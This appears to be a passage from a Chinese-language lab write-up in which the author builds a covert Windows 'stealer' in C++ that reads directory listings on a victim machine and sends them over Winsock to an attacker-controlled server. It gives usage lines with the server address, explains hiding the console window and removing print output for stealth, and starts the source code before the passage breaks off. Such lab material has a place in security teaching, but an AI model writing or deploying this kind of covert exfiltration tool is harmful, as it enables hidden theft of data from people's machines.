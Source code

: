 * 对于接收数据，您可以使用 `netcat` 或 `ncat` 之类的工具 - 不要自己编写。

* 您可以将通过 RDP 连接的机器用作受害者机器。您不需要将创建的窃取程序发送到其他任何地方。

关于`Winsock`库的知识请参考：[Winsock客户端和服务器代码](https://r3kind1e.github.io/2021/10/12/Winsock%E5%AE%A2%E6%88%B7%E7%AB%AF%E5%92%8C%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%BB%A3%E7%A0%81/)，关于列出文件系统的文件的多种方式请参考：[Linux下的dirent.h与C++17的std::filesystem命名空间](https://r3kind1e.github.io/2021/10/14/dirent.h/)。

要在Windows下使用`dirent.h`，你需要：[tronkko/dirent](https://github.com/tronkko/dirent)。



### 我写的源码及用法

**文件名：**`ls.cpp`

**用法：**`ls.exe server-name ["dirname1"] ["dirname2"] ... ["dirnamen"]`

**用法详解：**

* 当不传入任何命令参数时，程序会提示用户正确的用法。

  输入：`ls.exe`

  输出：`usage: ls.exe server-name ["dirname1"]["dirname2"] ...["dirname n"]`

* 传入一个命令参数，为服务器的域名或者是IP地址。程序会将当前工作目录中的目录和文件的名字发送到服务器。

  输入：`ls.exe 192.168.248.129`，或者是`ls.exe www.baidu.com`

* 传入两个命令参数，第一个为服务器的域名或者是IP地址，第二个为指定的目录（需要用双引号括起来）。

  输入：`ls.exe 192.168.248.129 "C:\\Develop"`

* 传入多个命令参数，第一个为服务器的域名或者是IP地址，其它的为指定的目录（需要用双引号括起来），参数之间使用空格分隔。

  输入：`ls.exe 192.168.248.129 "C:\\Develop" "C:\Ruby30-x64"`

  

**源码：**以下代码在Visual Studio 2019 16.10 ，C++ 语言标准：预览-最新 C++ 工作草案中的功能（/std:c++latest）测试通过。因为使用了C++20的`std::format`。为了达到隐蔽性的目的，注释掉了所有的打印语句，并且利用`ShowWindow()`函数对目标隐藏窗口：`ShowWindow(GetConsoleWindow(), SW_HIDE);`。

（优点：可以读取任意多个用户目录；进行错误检查；只需调用一次send，就可以将所有数据一次性发送；传输的数据格式直观；缺点：C++语言标准为最新，向下兼容性差）

```c++
#define WIN32_LEAN_AND_MEAN
#define _CRT_SECURE_NO_WARNINGS

#include <Windows.h>
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <stdlib.h>
#include <stdio.h>
#include <dirent.h>
#include <string.h>
#include <errno.h>
#include <locale.h>
#include <iostream>
#include <format>

// 需要与 Ws2_32.lib、Mswsock.lib 和 Advapi32.lib 链接
#pragma comment(lib, "Ws2_32.lib")
#pragma comment(lib, "Mswsock.lib")
#pragma comment(lib, "AdvApi32.lib")

#define DEFAULT_BUFLEN 512
#define DEFAULT_PORT "27015"	// 端口需要改成攻击者服务器监听的端口

std::string list_directory(const char* dirname);


```